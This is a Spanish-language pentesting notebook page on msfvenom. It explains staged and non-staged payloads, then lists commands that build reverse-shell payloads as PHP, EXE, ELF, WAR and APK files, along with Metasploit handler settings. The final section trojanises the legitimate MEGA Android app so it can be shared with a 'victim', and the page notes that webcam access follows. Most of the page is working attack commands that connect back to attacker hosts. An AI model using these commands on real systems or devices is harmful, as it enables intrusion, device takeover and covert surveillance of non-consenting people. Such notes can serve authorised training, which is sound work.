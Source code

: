Msfvenom es una herramienta de línea de comandos que forma parte del framework de pruebas de penetración Metasploit. Se utiliza para generar y personalizar payloads (cargas útiles) maliciosos que pueden ser utilizados en ataques de pruebas de penetración y en la explotación de vulnerabilidades en sistemas informáticos.

## TIPOS DE PAYLOADS
Hay dos tipos de payloads, los staged y los non-staged:

- **Payload Staged** --> El Payload Staged es un tipo de carga útil que se descompone en dos o más partes. La primera parte consiste en un fragmento de código que se envía al objetivo con el fin de establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece esta conexión, la segunda parte del payload, que es la verdadera carga útil del ataque, se envía. Este enfoque le da a los atacantes la capacidad de evadir medidas de seguridad adicionales, ya que la verdadera carga útil no se envía hasta que se establece una conexión segura.

- **Payload non-staged** --> Es un tipo de carga útil que se envía como una única entidad y no se divide en múltiples partes. En otras palabras, la carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Aunque este enfoque es más simple que el Payload Staged, es más fácilmente detectable por los sistemas de seguridad, ya que todo el código malicioso se envía de una sola vez, lo que puede hacer que sea más fácilmente identificado y bloqueado.

-------------------------------------

## Fichero PHP malicioso con msfvenom
Para generar un archivo de reverse shell en PHP utilizando msfvenom, puedes utilizar el siguiente comando:

```python
msfvenom -p php/reverse_php LHOST=<tu dirección IP> LPORT=<tu puerto> -f raw > reverse_shell.php
```

Una vez que hayas generado el archivo de reverse shell en PHP, puedes transferirlo a la máquina objetivo y ejecutarlo en un servidor web para establecer una conexión de reverse shell con la máquina atacante.

## Fichero EXE malicioso con msfvenom

Podemos también generar un payload para entablar una reverse shell en forma de meterpreter en metasploit desde una máquina windows a nuestra máquina atacante, generando el siguiente payload:
```python
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=443 -f exe -o pwned.exe
```
![[Pasted image 20230817140645.png]]
Una vez generado esto, tenemos que abrir el /multi/handler de metasploit seleccionando como payload el meterpreter:
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
![[Pasted image 20230817140542.png]]
Y ahora desde la máquina víctima, ejecutamos el script creado anteriormente:
![[Pasted image 20230817140608.png]]
Y recibimos sesión de meterpreter:
![[Pasted image 20230817140625.png]]
Aunque también podemos crear un payload que no sea de meterpreter, sino para recibir una shell normal, haciéndolo de la misma forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
## Fichero ELF malicioso con msfvenom

Los ficheros elf en linux se pueden asemejar a los exe de windows, por lo que haremos lo mismo de antes pero para linux:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 -f elf -o pwned.elf
```
![[Pasted image 20230818120343.png]]
Lo compartimos con la máquina víctima:
![[Pasted image 20230818120411.png]]
Nos ponemos en la escucha con metasploit usando el payload de meterpreter para linux:
```bash
set PAYLOAD linux/x64/meterpreter/reverse_tcp
```
![[Pasted image 20230818120441.png]]
Ejecutamos el archivo en la máquina víctima y recibimos la conexión:
![[Pasted image 20230818120513.png]]

## Fichero WAR malicioso con msfvenom para hacking tomcat

Estamos ante un servidor tomcat, que por ejemplo se trata de la máquina [[MAQUINA DEPLOY]], donde dentro del puerto 8080 corre un servidor tomcat y se nos muestra que podemos subir un archivo WAR:
![[Pasted image 20240101185536.png]]
```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.37 LPORT=443 -f war -o revshell.war
```
Lo creamos
![[Pasted image 20240101190014.png]]
Lo subimos y lo tenemos aquí dentro del servidor, donde hacemos clic:
![[Pasted image 20240101190609.png]]
Y recibimos la conexión:
![[Pasted image 20240101190633.png]]

-----------------------------------------

[[MAQUINA SECTALKS (Vulnerabilidad arbitrary file upload, php malicioso con msfvenom, y multi-handler de metasploit)]]

# CREAR APK MALICIOSA
Podemos también crear un payload dentro de un apk y establecer una sesión de meterpreter en metasploit, por tanto usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 > virus.apk
```
![[Pasted image 20230913095619.png]]
Y ahora con metasploit estaremos en la escucha con el multi handler, además de establecer el payload correcto:
```bash
set payload android/meterpreter/reverse_tcp
```
![[Pasted image 20230913095744.png]]
Si la ejecutamos desde un dispositivo android habremos recibido una sesión de meterpreter:
![[Pasted image 20230913100126.png]]
Y podemos acceder a la webcam:
![[Pasted image 20230913100232.png]]

# ESCONDER BACKDOOR EN APK LEGÍTIMA
Primero tenemos que instalar apktool en nuestro kali:
![[Pasted image 20230915153411.png]]
Y también nos bajamos la última versión del apktool:
![[Pasted image 20230915153511.png]]
Otorgamos permisos a los 2 archivos:
![[Pasted image 20230915153651.png]]
Movemos los dos archivos al siguiente directorio:
![[Pasted image 20230915154214.png]]
Y dentro del /usr/local/bin tenemos que renombrar el fichero .jar de esta forma:
![[Pasted image 20230915153900.png]]
Y ahora si ejecutamos el apktool debería funcionar bien:
![[Pasted image 20230915154546.png]]
Y ahora instalaremos estos 3 paquetes:
![[Pasted image 20230915160559.png]]
Ahora el siguiente paso será descargar un apk legítima, por ejemplo la de mega:
![[Pasted image 20230915124544.png]]
Y ahora una vez descargado el apk lo pasamos por msfvenom:
```bash
msfvenom -x mega.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.36 LPORT=443 -o mega_virus.apk
```
![[Pasted image 20230915155153.png]]
Lo pasamos al dispositivo android y ahora con metasploit nos ponemos en la escucha:
![[Pasted image 20230915155351.png]]

Nos compartimos el apk con la víctima y con metasploit nos ponemos en la escucha, poniendo este payload:
```bash
set payload android/meterpreter/reverse_tcp
```